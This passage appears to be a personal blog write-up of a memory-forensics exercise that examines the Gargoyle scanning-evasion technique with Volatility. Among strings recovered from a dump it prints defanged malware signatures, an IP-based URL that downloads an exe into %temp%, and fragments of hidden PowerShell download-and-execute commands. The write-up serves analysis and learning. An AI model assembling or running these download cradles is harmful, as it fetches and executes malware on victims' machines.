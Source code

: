 In the midsts of a lot of this, I find some strings for http requests. Again, I can't be sure if these are malware signatures or something that was intended to be run by Gargoyle, but they look something like this (I defanged them).

~~~
F!TEL:HTML/Meadgive!shell
Behavior:Win32/Cerber.C!rsm
TrojanDownloader:PowerShell/Ploprolo.A
hxxp://92.63.197.48/m/tm.exe%temp%\\755069740.exe
file'").invoke('http://
.php','%tmp%\
.exe');&
file'").invoke('http://
.php','%tmp%\doc.'+$
);start('%tmp%\doc.'+$
command$
=('exe');
P.invoke('http://
P/benutzer/profilbearbeiten[.]php','%tmp%\not.'+$
powershell.exe-windowstylehidden(new-objectsystem.net.webclient).downloadfile('http
@.dat','%temp%
.invoke('http://
P/webservices/public/saml2assertionconsumer.php','%tmp%\
.e'+'xe');start('%tmp%\
executionpolicybypass(new-objectsystem.net.webclient).downloadfile('http://
~~~

Anyway, at this point, I'm way past knowing exactly what I'm looking at, but I thought this exercise was interesting and really appreciate the work that went into making this available. In the course of this process, I ran into [this article](https://blog.f-secure.com/hunting-for-gargoyle-memory-scanning-evasion/) which was fascinating but I don't know what it could have gotten me I didn't already get? 

Maybe Gargoyle looks different depending on when you do the dump, but good on them, their plugin at least ran and did confirm Gargoyle.exe was likely Gargoyle. Maybe I'm so clueless I can't tell that people like them already did the hard work and its been integrated into volatility and I can just show up not having a clue what I'm doing and feel like I accomplished something. Thanks to everyone who went through so much trouble doing this so I could stumble through this in about an hour and a half over 2 nights. 
